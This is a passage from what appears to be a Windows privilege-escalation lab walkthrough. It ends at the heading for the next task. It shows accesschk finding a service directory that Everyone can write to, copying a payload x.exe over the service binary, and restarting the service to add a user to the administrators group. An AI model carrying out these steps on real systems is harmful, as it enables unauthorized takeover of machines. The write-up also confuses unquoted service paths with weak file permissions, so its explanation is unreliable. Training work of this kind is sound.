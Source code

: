 ```
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the
computer/domain

Members

--------------------------------------------------------------------------
Administrator
TCM
user
The command completed successfully.
```

# Task 6 - Service Escalation (Executable files)

When a service is created whose executable path contains spaces and isn't enclosed within quotes. That path allows us to have privilege escaltion if the service has that privilege.

## RDP session

1. Type the command `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Progarm Files\File Permissions Service"`

```
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS => Everyone has all access
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
```

## Exploit

1. In RDP session, transfer the `x.exe` in C:\Temp

2. cp /y x.exe "C:\Program Files\File Permissions Service\filepermservice.exe"

3. Restart the service. `sc start filepermsvc`

4. Now we have added the user. 

#POC

```
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the
computer/domain

Members

--------------------------------------------------------------------------
Administrator
TCM
user
The command completed successfully.
```
# Task 7 - Privilege Escalation (Startup Applications)
